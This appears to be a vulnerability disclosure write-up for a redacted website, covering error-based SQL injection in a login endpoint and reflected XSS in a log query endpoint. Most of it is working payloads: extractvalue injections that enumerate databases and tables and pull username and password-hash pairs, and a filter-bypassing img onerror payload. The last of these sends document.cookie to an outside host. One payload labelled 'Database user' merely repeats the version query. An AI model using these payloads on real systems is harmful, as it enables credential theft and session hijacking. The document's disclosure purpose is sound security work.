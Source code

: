 * Redacted Information
As per request the original URLs, parameter names and return values have been replaced.

* SQL Injection in login

There are two ways of talking to the authentication function, the login form on the main site or providing the parameters via URL directly.

- =https://www.<[SITE]>.org/ws/cl.php?p=auth&username=my-username&password=my-password&d[p]=auth&d[username]=my-username&d[password]=my-password=

Including a ='= in the user field of the form or the =username= and =d[username]= parameters we can trigger an error complaining about SQL syntax.
The error is partially shown as part of the login form but can be read completely in both the browser's console or the returned page when using the direct URL.
Since error messages are returned to the user it is eventually possible to use those to get more information out of the database.

** Forcing XPath errors

We can force errors in XPath when using =extractvalue()= and concating the data we want with an invalid symbol like =0x0a= or =0x3a=.

A payload like
- =a' OR extractvalue(rand(), concat(0x3a, version())) --%20=
  - Note: the =%20= represents a whitespace at the end which is imporant to include!
- URL encoded:
#+BEGIN_SRC 
https://www.<thesite>.org/ws/cl.php?p=auth&username=a%27+OR+extractvalue(rand()%2Cconcat(0x3a%2Cversion()))+--+&password=my-password&d[p]=auth&d[username]=a%27+OR+extractvalue(rand()%2Cconcat(0x3a%2Cversion()))+--+&d[password]=my-password
#+END_SRC

will return
#+BEGIN_SRC
{"0":{"s":"anon","isUser":"true","pwd":"true","username":"a' OR extractvalue(rand(), concat(0x3a, version())) -- ","error":"Message: XPATH syntax error:'<[DATABASEVERSION]>'"}
#+END_SRC

*** Enumerating Databases

With the following payloads it is possible to get an overview of the databases, their tables aswell as their content.

- Version
  #+BEGIN_SRC
    a’ OR extractvalue(rand(),concat(0x3a,version())) --%20
  #+END_SRC
- Database user
  #+BEGIN_SRC
  a’ OR extractvalue(rand(),concat(0x3a,version())) --%20
  #+END_SRC
- Databases
  - db1
    #+BEGIN_SRC
    a’ OR extractvalue(0x0a,concat(0x0a,(select database()))) --%20
    #+END_SRC
  - db2
    #+BEGIN_SRC
    a’ OR extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1))) --%20
#+END_SRC

Limits are used to specify subsets of returned data, selecting individual rows.

- Tables
  - Users in db2
    #+BEGIN_SRC
    a’ OR extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema="db2" limit 27,1))) --%20
    #+END_SRC

- User entries
  #+BEGIN_SRC
  a’ OR extractvalue(rand(),concat(0x3a,(SELECT concat(username,0x3a,password) FROM ‘db2‘.userdb LIMIT 0,1))) --%20
  #+END_SRC

  This returns something like =user1:<[hash]>= but it is not the full hash, the last few characters are missing. Turns out the error message
  is limited to 32 characters. Since we have to atleast concat one /special/ character with the desired data it is possible to get at most 31 characters
  of the hash which leaves 16 options for the remaining character.

* XSS in log query

Similarly to the URL for the SQLi from above there exists another URL which seems to be used to query logs.

- =https://www.<[SITE]>.org/ws/cl.php?p=log&query=my-query=

The queries are put back on the site which eventually makes reflected XSS possible.

A payload like this bypasses the filters in place that ban script tags and regular slashes at minimum.

#+BEGIN_SRC
<img src=x onerror=this.src=alert(origin);this.removeAttribute(’onerror’);>
#+END_SRC

As URL:
#+BEGIN_SRC
https://www.<[SITE]>.org/ws/cl.php?p=log&query=%3Cimg%20src=x%20onerror=this.src=alert(origin);this.removeAttribute(%27onerror%27);%3E
#+END_SRC
Removing the =onerror= attribute at the end prevents the function from running in an infinite loop.

With this it is possible to have users send out their cookies by just clicking a forged link or run similar javascript in their browser.

#+BEGIN_SRC
<img src=x onerror=this.src='https://<[IP]>:<[PORT]>/'+document.cookie;this.removeAttribute('onerror');>
#+END_SRC

Example log from me sending my own cookie to a remote machine controlled by myself.
[[file:redacted_xss_get_cookie.png]]

